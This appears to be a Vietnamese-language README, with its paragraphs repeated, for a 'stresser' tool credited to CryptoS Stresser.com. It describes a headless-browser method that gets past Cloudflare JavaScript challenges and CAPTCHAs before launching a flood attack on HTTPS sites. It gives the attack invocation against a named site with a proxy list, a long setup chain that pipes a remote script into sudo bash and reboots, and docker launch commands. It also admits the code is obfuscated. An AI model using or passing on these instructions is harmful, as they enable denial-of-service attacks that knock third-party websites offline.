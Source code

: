 Phương thức bỏ qua này sẽ gửi yêu cầu ban đầu thông qua Trình duyệt để bỏ qua JS và khi đạt đến 16 lần bỏ qua, nó sẽ bắt đầu tấn công. Nó chỉ hoạt động trên các trang web HTTPS://.

Phương pháp này sạch sẽ và không chứa bất kỳ vi rút nào nhưng tôi đã mã hóa nó để ngăn chặn sự sửa đổi của những người không phải là tác giả.

Nó hoạt động chủ yếu trên Cloudflare JS và Captcha nhưng có thể hoạt động trên các biện pháp bảo vệ khác, nó có thể cần sửa đổi trên thư viện flare.

Phương pháp này được mã hóa bởi @jeffspender cho CryptoS Stresser.com

Phương thức bỏ qua này sẽ gửi một yêu cầu ban đầu thông qua trình duyệt để bỏ qua JS và khi đạt đến 16 lần bỏ qua, nó sẽ khởi động cuộc tấn công. Nó chỉ hoạt động với các trang web HTTPS://.

Phương pháp này sạch sẽ và không chứa bất kỳ vi rút nào, nhưng tôi đã mã hóa nó để ngăn những người không phải tác giả sửa đổi.

Nó chủ yếu hoạt động với Cloudflare JS và Captcha, nhưng có thể hoạt động trên các biện pháp bảo vệ khác, nó có thể yêu cầu sửa đổi thư viện flare.

Phương thức này được mã hóa bởi @jeffspender. CryptoS Stresser.com

Yêu cầu: 
```
./browser-linux https://exitus.me/ 300 proxies.txt
```
Cài đặt phần mềm được yêu cầu và khởi động lại máy chủ:
```
sudo apt -y install curl dirmngr apt-transport-https lsb-release ca-certificates;curl -sL https://deb.nodesource.com/setup_12.x | sudo -E bash -;sudo apt -y install nodejs;sudo apt -y install gcc g++ make;sudo apt -y install htop vnstat;sudo apt-get install -y unzip;sudo apt -y install screen;sudo apt -y install unrar;sudo apt -y install golang-go; go get github.com/erikdubbelboer/gspt; npm i await-timeout;npm i console-log-level;npm i events; npm i request;npm i chalk; npm i hpagent; npm i got; npm i crypto; npm i cheerio; npm i url; npm i axios; npm i https; npm i request-curl;npm i user-agents; npm i uuid; npm i tmp-promise; npm i puppeteer-extra;npm i puppeteer-extra-plugin-stealth;npm i sleep-promise; npm i puppeteer-extra-plugin-adblocker;sudo apt install apt-transport-https ca-certificates curl software-properties-common; curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -;sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu focal stable"; sudo apt update; sudo apt install docker-ce; sudo curl -L "https://github.com/docker/compose/releases/download/1.26.0/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose;sudo chmod +x /usr/local/bin/docker-compose; echo  "\n${gren}Installation Modules Required Done, Preparing the Next Stage..\n${white}"; sleep 6; npm install puppeteer; sudo apt install -y gconf-service libasound2 libatk1.0-0 libc6 libcairo2 libcups2 libdbus-1-3 libexpat1 libfontconfig1 libgcc1 libgconf-2-4 libgdk-pixbuf2.0-0 libglib2.0-0 libgtk-3-0 libnspr4 libpango-1.0-0 libpangocairo-1.0-0 libstdc++6 libx11-6 libx11-xcb1 libxcb1 libxcomposite1 libxcursor1 libxdamage1 libxext6 libxfixes3 libxi6 libxrandr2 libxrender1 libxss1 libxtst6 ca-certificates fonts-liberation libappindicator1 libnss3 lsb-release xdg-utils wget; sudo apt-get install -y libgbm-dev;echo -e "\n${red}Reboot Server Required..\n${white}"; sleep 6; reboot
```

Khởi động phiên bản trình duyệt Chrome:
```
cd /root/flare/8120; export PUPPETEER_PRODUCT=firefox; sudo npm install;node node_modules/puppeteer/install.js;export PUPPETEER_PRODUCT=firefox; docker-compose up -d; docker build -t cryptostresser:custom .;screen -S browser -dms LIBCRYPTOSTRESSER docker run -p 8120:8120 -e LOG_LEVEL=debug cryptostresser:custom
```
Đảm bảo rằng trình duyệt đang chạy với:

trình duyệt thứ ba trên màn hình
